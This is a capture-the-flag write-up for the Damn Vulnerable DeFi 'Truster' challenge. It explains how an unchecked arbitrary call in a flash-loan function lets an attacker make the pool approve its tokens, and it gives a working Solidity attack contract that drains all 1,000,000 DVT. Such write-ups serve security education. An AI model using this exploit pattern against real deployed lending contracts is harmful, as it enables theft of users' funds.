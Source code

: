 # Truster

## **Problem:**
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## **Solution:**
The flashloan function takes the target contract address as an input, which will be responsible for repaying the debt. The function directly calls target.functionCall(data) from the Address library of OpenZeppelin, without validating the type of contract at the target address.

We exploit this behavior by initiating a flashloan with a borrowed amount of 0 tokens. We pass the address of the token contract as the target and provide the function signature of the approve function as the data. This results in the TrusterLenderPool contract approving tokens to our contract.

With this approval in place, our contract is able to transfer the entire token balance from the pool to itself, effectively bypassing the intended security checks.

### **Code:**
```javascript
contract Attacker {
    TrusterLenderPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(TrusterLenderPool _pool, DamnValuableToken _token, address _recovery) {
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));
        token.transferFrom(address(pool), recovery, 1_000_000e18);
    }        
}
```


